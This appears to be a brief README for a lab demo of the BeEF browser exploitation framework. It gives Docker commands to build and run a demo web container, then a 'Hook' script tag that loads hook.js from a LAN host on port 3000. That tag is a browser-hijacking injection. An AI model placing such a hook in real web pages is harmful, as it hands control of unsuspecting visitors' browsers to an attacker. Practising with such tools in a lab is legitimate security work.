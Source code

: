# Demo for beef


### build docker image
```
docker build -t demo-beef:latest .
```

### create docker container
```
docker run --rm -d -p 8080:80 --name demo-beef demo-beef:latest
```

### start docker conatiner
```
docker start demo-beef
```

---
Hook
```
<script src="http://192.168.1.111:3000/hook.js"></script>
```
